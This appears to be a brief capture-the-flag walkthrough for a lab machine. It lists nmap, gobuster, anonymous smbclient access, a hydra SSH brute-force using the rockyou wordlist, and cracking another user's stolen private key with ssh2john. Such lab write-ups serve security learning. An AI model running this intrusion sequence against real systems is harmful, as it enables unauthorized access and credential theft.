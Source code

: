 ### Deploy the machine and connect to our network
- Connect to VPN
### Find the services exposed by the machine
```
nmap -sV -vv -p- MACHINE_IP
```
### What is the name of the hidden directory on the web server(enter name without /)?
- Use gobuster to scan hidden directories
```
gobuster -dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt 
```
### User brute-forcing to find the username & password
- log in to samba using:
```
smbclient //10.10.30.147/anonymous
```
- then download staff.txt to your machine and cat it, you will find username there
###What is the password?
- use hydra to bruteforce ssh
```
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.30.147 ssh -v 
```
### What service do you use to access the server(answer in abbreviation in all caps)?
- ssh
### Enumerate the machine to find any vectors for privilege escalation 
- you can read kay id_rsa private key, then use ssh2john to crack paraphrase key
- then chmod kay_id_rsa to 600
- and ssh to machine  
### What is the name of the other user you found(all lower case)?
- checkout home directory

